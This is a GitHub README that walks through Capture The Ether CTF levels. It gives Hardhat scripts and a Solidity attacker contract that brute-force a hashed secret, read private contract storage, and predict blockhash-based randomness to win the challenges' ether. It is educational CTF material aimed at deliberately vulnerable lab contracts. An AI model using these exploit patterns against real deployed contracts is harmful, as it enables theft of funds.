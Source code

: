 # capture-the-ether-solutions
Walkthrough every level of the Capture The Ether CTF



# Solutions


## Warmup

### Deploy a contract

This level just teaches how to create an instance. Click deploy and you're ready to go.


### Call Me

Just copy and paste the level code within a Remix session and copy the instance address. Call `callme()` and submit the instance.


### Choose a Nickname

The only trick of this level is the casting from string to bytes32. If you use a hashing function such as `keccak256(bytes(stringValue))` it won't work as intended. Just run a script that handles the conversion from string to a hex value and that's it.

    describe("Setting Nickname", function () {
        it("Should Set the nickname", async function () {
            const myName = "ElPityMartinez"
            const instance = await ethers.getContractAt(
                "NicknameChallenge",
                "0x71c46Ed333C35e4E6c62D32dc7C8F00D125b4fee"
            );
            const [owner] = await ethers.getSigners();
            
            const newName = ethers.utils.formatBytes32String(myName);
            await instance.connect(owner).setNickname(newName);
        });
    });


## Lotteries

### Guess The Number

This level is quite straight forward. Just call `guess(42)`. Please make sure that you hold at least a balance of `2 rETH + dust`.

    describe("Guessing", function () {
        it("Should Guess the number", async function () {
            const instanceAddr = "0x89E0aE27eA9874aDD6ff5923B520D88C41f6B80e";
            const instance = await ethers.getContractAt("GuessTheNumber", instanceAddr);
            const [owner] = await ethers.getSigners();
            
            // Checking that the contract has 1 ether balance on deployment.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.utils.parseEther("1"));

            await instance.connect(owner).guess(42, {value: ethers.utils.parseEther("1")});
            
            // Checking win condition.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.utils.parseEther("0"));

        });
    });

### Guess The Secret Number

To solve this it is important to know how a hashing function works. It spans the input data into a scrambled and encoded-like bytes32 chain. The input data should be a bytes data but the key is that those bytes could be number concatenated with strings with different size. So, the return data size will always have 32 bytes, independently from the real input size. Also, the `keccak256` is a asymmetric hashing function. Which means that it works in one way. Knowing the return (image of the function), does not give information about the input. But the most important thing in here is that the hash will always be the same as long as the input parameters are constant.

Taking this into account, and knowing that the maximum value of a `uint8` number is `255`. This can be easily get by doing `type(uint8).max`, `uint8(-1)` in older solidity versions or even `unchecked{ uint8(-1); }` as for `>0.8.0` compiler versions.

Also, we see that the answer is validated only hashing a single input parameter (the guessed number). Which makes it pretty vulnerable. The hash can be bruteforced by creating a script that loops from 0 to 255, and checking if the hash of that number is the same as the `answerHash`. A note on this, if the hashing function used also other parameter, for example `keccak256(abi.encodePacked(n,y))`, the difficulty would increase exponentially but still it is possible to bruteforce the hash. So, it is strongly recommended not to use a hash or even a private variable as a source of "secrecy" or randomness.

By running this script the level is easily cracked:

    describe("Guessing", function () {
        it("Should Guess the secret number", async function () {
            const instanceAddr = "0xAaf26E43dd44cCBeD005c23B4d483bCa95448f5B";
            const nearlySecretHash = "0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365";

            const instance = await ethers.getContractAt("IGuessTheSecretNumberChallenge", instanceAddr);
            const [owner] = await ethers.getSigners();
            
            // Checking that the contract has 1 ether balance on deployment.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.utils.parseEther("1"));

            const maxUint8 = 255;
            for (let index = 0; index <= maxUint8; index++) {
                if(ethers.utils.keccak256(index) == nearlySecretHash){
                    console.log(`The secret number was ${index}`);
                    await instance.connect(owner).guess(index, {value: ethers.utils.parseEther("1")});
                }  
            }

            // Checking win condition.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.BigNumber.from("0"))

        });
    });



### Guess The Random Number

This level does not require you to calculate a single hash or even try to determine the `blockhash` of the deployment and `now`. It is important to know that the fact that a variable is not public means that the compiler won't translate that as a public view function in order to provide a getter for that (this is what does the compiler when a public variable is declared, it treats it as a public view function). But under no circumstances it means that the value of that variable is not _readable_ . Contracts have the storage layout registered within the blockchain. In other words, data of contracts is stored on chain and the slots where the information is held can be easily consulted if the right slot is spotted.

Each slot has a size of 32 bytes. So, every 32 bytes of information the EVM will add a slot to the stack in order to save information. If the variables that are declared have less than 32 bytes, they can be concatenated and stored in a single slot in order to save space. For example:

    uint256 one;   // this will use the slot 0.
    uint128 two_a; // this will start using slot 1.
    uint128 two_b; // concatenated with two_a on slot 1.

As a conclusion, the information held on each slot can be consulted easily if we know which slot we need to target. This level is solved by targeting the slot 0, because the `answer` variable is the only variable declared there. Using the `getStorageAt` function from ethers, we can get the value as a hex stored at the slot 0.

    describe("Guessing", function () {
        it("Should Guess the random number", async function () {
            const instanceAddr = "0x0C68e4Ef0aD5fb5410A1b0E6241C4a116370Ec35";

            const instance = await ethers.getContractAt("IGuessTheRandomNumberChallenge", instanceAddr);
            const [owner] = await ethers.getSigners();
            
            // Checking that the contract has 1 ether balance on deployment.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.utils.parseEther("1"));

            const answer = parseInt(await ethers.provider.getStorageAt(instanceAddr, 0));

            console.log(`The answer is: ${answer}`);
           
            await instance.connect(owner).guess(answer, {value: ethers.utils.parseEther("1")});

            // Checking win condition.
            expect(await ethers.provider.getBalance(instanceAddr)).to.be.eq(ethers.utils.parseEther("0"))

        });
    });

### Guess The New Number

The challenge in here is identifying that the pseudo-random number is generated every time the function is called according to the current parameters of the chain. Because of this, those values can be either manipulated by miners and also precalculated by any user if the call is executed in a single step as it is shown. Because we are going to need the current blockchain parameters in order to solve this, the following contract is used to crack this level:

    pragma solidity ^0.8.13;

    contract GuessTheNewNumberAttacker{
        function attack(address _destination) external payable{
            require(address(this).balance >= 1 ether);

            uint8 calculatedAnswer = uint8(
                uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
                ));

            IGuessTheNewNumberChallenge(_destination).guess{value: 1 ether}(calculatedAnswer);

            require(IGuessTheNewNumberChallenge(_destination).isComplete(), "!completed");
            // Transfer back all the funds to the user
            (bool withdrawn, ) = payable(tx.origin).call{value: address(this).balance}("");
            require(withdrawn,  "!withdrawn");
        }

        receive() external payable {}
    }  

A reminder, do not forget implementing the `receive` fallback. Otherwise, the call will fail because when the instance sends `2 ether` to the winner on this case it will try sending them to `GuessTheNewNumberAttacker`. If the contract lacks from receive or of a payable fallback, it cannot receive assets from regular transfers.